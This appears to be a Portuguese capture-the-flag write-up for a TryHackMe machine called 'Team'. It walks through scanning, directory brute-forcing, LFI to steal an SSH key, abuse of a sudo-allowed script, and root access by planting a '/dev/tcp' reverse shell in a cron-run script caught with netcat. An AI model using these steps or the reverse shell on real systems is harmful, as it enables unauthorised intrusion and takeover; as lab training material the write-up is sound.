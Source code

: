 
# Team

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.4.169
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0f01a0be-ebec-49ca-9224-1370ce6dc092)

![image](https://github.com/lufffe/Writeups/assets/90646635/f0c398da-9363-41d6-b6f3-73989400afae)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 21,22,80 10.10.4.169
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9c6a0cee-6596-415b-9509-899b399ad85f)

* ###  Scan de Arquivos e Diretórios.
```bash
* gobuster dir -u http://team.thm -w ~/common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/60f5f9bd-bd6a-49d2-9e14-999e01b389e8)

* ###  Olhando robots.txt
![image](https://github.com/lufffe/Writeups/assets/90646635/541242b1-9762-4ceb-80a4-13f9e0698252)

* ###  Scan dentro da pasta Scripts.
```bash
gobuster dir -u http://team.thm/scripts/ -w ~/common.txt -t 100 --no-error -x php,html,txt,sh,bkp
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e7c055fa-771a-45a2-b78d-028586aceb60)

* ###  Arquivo encontrado, tem um arquivo old, baixa ele.
![image](https://github.com/lufffe/Writeups/assets/90646635/41aed1cb-b238-4638-b2e0-203af14cf7c5)

* ### Arquivo baixado.
```bash
cat script.old
```
![image](https://github.com/lufffe/Writeups/assets/90646635/17477240-6d7e-4214-9113-6f2968c808cb)

* ### Acessando FTP com a credencial encontrada.
```bash
ftp 10.10.88.254
```
![image](https://github.com/lufffe/Writeups/assets/90646635/606bbafa-17e4-4ac2-9ae3-25c15ac52f76)

* ### Arquivo baixado.
![image](https://github.com/lufffe/Writeups/assets/90646635/faba2a30-b04c-40b8-9cf5-b793fecfd3f3)

* ### Adicione o dev como subdominio do team.thm no arquivo /etc/hosts
```bash
sudo nano /etc/hosts
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8a0ce28e-424d-4085-b06b-64debe527656)



![image](https://github.com/lufffe/Writeups/assets/90646635/1b5a3921-c55e-41da-8b4d-deb0ef39c18c)

* ### Aqui tem um LFI.
 ![image](https://github.com/lufffe/Writeups/assets/90646635/798ce688-0f8a-4457-898f-18e0dcdac771)

* ### Aqui tem uma chave ssh do Dale
![image](https://github.com/lufffe/Writeups/assets/90646635/9926e313-d05e-48fa-adcf-e1dc86a85988)

```bash
┌──(xnv㉿kali)-[~/thm/team]
└─$ ssh -i id_rsa dale@team.thm
```

```bash
dale@TEAM:~$ cat user.txt
```

> #########################################

```bash
dale@TEAM:~$ cat /home/gyles/admin_checks
```

<aside> 💡 #!/bin/bash printf "Reading stats.\n" sleep 1 printf "Reading stats..\n" sleep 1 read -p "Enter name of person backing up the data: " name echo $name >> /var/stats/stats.txt read -p "Enter 'date' to timestamp the file: " error printf "The Date is " $error 2>/dev/null date_save=$(date "+%F-%H-%M") cp /var/stats/stats.txt /var/stats/stats-$date_save.bak printf "Stats have been backed up\n"

</aside>

```bash
dale@TEAM:~$ sudo -l
```
(gyles) NOPASSWD: /home/gyles/admin_checks

```bash
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
```
Reading stats.
Reading stats..
Enter name of person backing up the data: teste
Enter 'date' to timestamp the file: /bin/bash
<aside> 💡 LINPEAS root admin 65 Jan 17 2021 /usr/local/bin/main_backup.sh
</aside>

```bash
gyles@TEAM:/usr/local/bin$ nano main_backup.sh
```
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.9.5.85/4455 0>&1"

ESPERA ALGUNS SEGUNDOS QUE O CRONJOB VAI EXECUTAR O SCRIPT

```bash
┌──(xnv㉿kali)-[~]
└─$ nc -lnvp 4455
```

```bash
root@TEAM:~# cat /root/root.txt
```
> #########################################
